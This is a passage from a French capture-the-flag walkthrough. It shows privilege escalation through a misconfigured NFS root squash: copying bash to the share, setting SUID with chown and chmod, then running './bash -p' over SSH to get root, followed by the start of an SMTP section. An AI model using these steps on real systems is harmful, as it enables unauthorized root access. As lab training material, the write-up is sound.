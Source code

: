 Cheminement Mappé :

Si cela reste difficile à suivre, voici une explication étape par étape des actions que nous entreprenons et de leur relation, permettant finalement d'obtenir un shell root :

```
Accès NFS ->

    Obtention d'un Shell à Privilèges Limités ->

        Téléchargement d'un Exécutable Bash vers le Partage NFS ->

            Définition des Permissions SUID via NFS en raison d'un root squash mal configuré ->

                Connexion via SSH ->

                    Exécution de l'Exécutable Bash avec le Bit SUID ->

                        ACCÈS ROOT

```

Donc j’ai besoin de prendre le bash sur ma machine dans un premier temps. 

```bash
scp -i key_name username@10.10.78.147:/bin/bash ~/Downloads/bash
```

Dans mon cas c’est : `scp -i ~/THM/id_rsa [cappucino@10.10.78.147](mailto:cappucino@10.10.78.147):/bin/bash ~/Downloads/bash`

Je vais ensuite le copier dans l’emplacement de partage monté sur ma machine. 

```bash
cp ~/Downloads/bash /tmp/mount/cappucino
```

Je dois changer le propriétaire et mettre l’option SUID.

```bash
sudo chown root bash
sudo chmod +s bash
#Ce qui me donne ça comme permissions:
.rwsr-sr-x@ 1.1M root 17 Jul 08:35  bash
```

Je me connecte au ssh et j’execute le bash avec `./bash -p` . Le -p permet de persister dans les permissions.

Je cd dans /root et j’obtiens le flag.

# SMTP

SMTP

SMTP signifie "Simple Mail Transfer Protocol". Il est utilisé pour gérer l'envoi des e-mails. Pour prendre en charge les services de messagerie, une paire de protocoles est nécessaire, comprenant SMTP et POP/IMAP. Ensemble, ils permettent à l'utilisateur d'envoyer des mails sortants et de récupérer des mails entrants, respectivement.
